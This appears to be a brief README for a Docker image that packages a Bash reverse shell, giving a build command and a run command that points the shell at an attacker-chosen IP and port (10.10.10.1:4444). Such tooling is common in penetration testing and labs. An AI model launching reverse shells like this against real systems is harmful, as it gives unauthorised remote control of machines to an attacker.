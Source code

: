 # Simple Bash Reverse Shell

Build

```bash
docker build -t wakeward/bash-rs:latest .
```

Run

```bash
docker run --rm -it -e IP=10.10.10.1 -e PORT=4444 wakeward/bash-rs:latest
```